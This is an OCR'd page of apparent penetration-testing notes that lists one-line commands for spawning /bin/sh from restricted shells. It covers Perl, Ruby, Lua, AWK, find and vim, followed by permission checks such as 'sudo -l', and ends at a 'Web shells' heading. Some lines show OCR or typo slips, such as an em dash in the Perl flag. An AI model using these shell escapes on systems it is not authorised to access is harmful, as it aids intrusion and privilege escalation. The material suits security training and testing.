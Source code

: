 ### Perl (programming language)
```
perl —e 'exec "/bin/sh";'
```
```
perl: exec "/bin/sh";
```
### Ruby
```
ruby: exec "/bin/sh"
```
### Lua
If the programming language Lua is present on the system, we can use the os.execute method to execute the shell interpreter specified using the full command below:
```
lua: os.execute('/bin/sh')
```
### AWK
AWK is a C-like pattern scanning and processing language present on most UNIX/Linux-based systems
```
awk 'BEGIN {system("/bin/sh")}'
```
### Find
```
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
```
This use of the find command is searching for any file listed after the -name option, then it executes awk (/bin/awk) and runs the same script we discussed in the awk section to execute a shell interpreter.
### Using Exec To Launch A Shell
```
find . -exec /bin/sh \; -quit
```
This use of the find command uses the execute option (-exec) to initiate the shell interpreter directly. If find can't find the specified file, then no shell will be attained.
### VIM
vim to shell
```
vim -c ':!/bin/sh'
```
vim to escape
```
vim
:set shell=/bin/sh
:shell
```
### Execution Permissions Considerations
list files with permissions to know the permissions of the current shell sessions account.
```
ls -la <path/to/fileorbinary>
```
or
```
Sudo -l
```
The sudo -l command above will need a stable interactive shell to run. 
# Web shells